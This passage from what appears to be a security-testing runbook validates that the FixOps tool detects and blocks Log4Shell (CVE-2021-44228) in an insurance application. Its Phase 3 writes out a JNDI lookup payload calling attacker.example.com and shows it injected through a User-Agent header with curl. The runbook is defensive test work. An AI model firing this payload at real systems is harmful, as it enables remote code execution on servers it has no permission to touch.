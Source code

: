### Phase 2: FixOps SBOM Analysis (5 minutes)
1. Upload SBOM to FixOps:
   ```bash
   curl -X POST \
     -H "X-API-Key: $FIXOPS_API_TOKEN" \
     -F "file=@e2e_orchestration/inputs/APP1_insurance/sbom.json" \
     http://localhost:8000/inputs/sbom
   ```

2. Upload CVE feed:
   ```bash
   curl -X POST \
     -H "X-API-Key: $FIXOPS_API_TOKEN" \
     -F "file=@e2e_orchestration/inputs/APP1_insurance/cve_feed.json" \
     http://localhost:8000/inputs/cve
   ```

3. Run FixOps pipeline:
   ```bash
   curl -X POST \
     -H "X-API-Key: $FIXOPS_API_TOKEN" \
     http://localhost:8000/pipeline/run | jq
   ```

4. Verify FixOps detection:
   - Check for CVE-2021-44228 in crosswalk
   - Verify CVSS 10.0, EPSS 0.975, KEV=true
   - Confirm BLOCK verdict issued

### Phase 3: Simulated Exploitation Attempt (15 minutes)
**WARNING**: Only perform in isolated test environment

1. Craft malicious JNDI lookup payload:
   ```bash
   PAYLOAD='${jndi:ldap://attacker.example.com:1389/Exploit}'
   ```

2. Inject payload via quote form (User-Agent header):
   ```bash
   curl -X POST \
     -H "Authorization: Bearer $JWT_TOKEN" \
     -H "User-Agent: ${PAYLOAD}" \
     -H "Content-Type: application/json" \
     -d '{
       "customer_id": "cust_1234567890",
       "quote_type": "auto",
       "coverage_amount": 100000,
       "deductible": 1000
     }' \
     https://api.insurance.example.com/v1/quotes
   ```

3. Monitor for exploitation indicators:
   - Outbound LDAP connections to attacker.example.com:1389
   - Unusual DNS queries
   - Process spawning (e.g., /bin/bash)
   - File system modifications
